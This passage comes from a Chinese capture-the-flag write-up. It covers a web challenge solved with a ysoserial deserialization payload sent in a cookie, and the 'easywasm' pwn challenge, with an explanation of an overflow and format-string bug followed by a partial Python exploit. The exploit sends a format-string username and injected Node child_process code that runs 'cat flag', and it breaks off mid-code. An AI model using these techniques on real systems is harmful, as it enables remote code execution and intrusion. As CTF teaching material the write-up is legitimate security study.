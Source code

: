 编译成 dll，放到服务器的 webdav 服务下。

用 [https://github.com/Jayl1n/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections8.java](https://github.com/Jayl1n/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections8.java) 构造序列化 payload，贴到 cookie 里打一发，完事儿~

<a name="Pwn"></a>
## Pwn

<a name="easywasm"></a>
### easywasm

> 出题人：0xd5f
> 解题人数：0
> 最终分数：1000


程序存在一个结构体用于保存信息记录

```c
struct
{
  	char *username;
  	int password;
  	char *introduction;
  	void (*state)(const char *);
} record;
```

先说三个函数逻辑

`registered()`用于初始化record结构体

`profile()`用于打印`username`和`introduction`

`login()`用于验证`username`和`password`并通过`state`函数指针返回登录成功或失败的状态信息

因为程序存在`Z_envZ__emscripten_run_scriptZ_vi`,只需要改变state即可,但是如果成功调用,还需要泄露出`password`

其中`profile()`存在一个溢出漏洞和一个格式化字符串漏洞,通过溢出,我们可以控制任意写的地址,然后再leak出`password`即可,许多payload的细节可以调试知道

不过带师傅们好像更热衷于ddos,Orz

exp

```python
import requests

url = 'http://47.104.89.129:23333/'

registered = url + 'registered'
profile = url + 'profile'
login = url + 'login'

username = 'username'
password = 'password'
introduction = 'introduction'


payload = ''
payload += 'A'*7
payload += '''
const exec=require("child_process").exec;
exec("cat flag", function(error,stdout,stderr){process.stdout.write(stdout);});
'''.ljust(0x7f, ' ')
payload += '//\x3C\x0D\x00'

params = {
    username: '%2$0141d%1$n',
    introduction: payload
```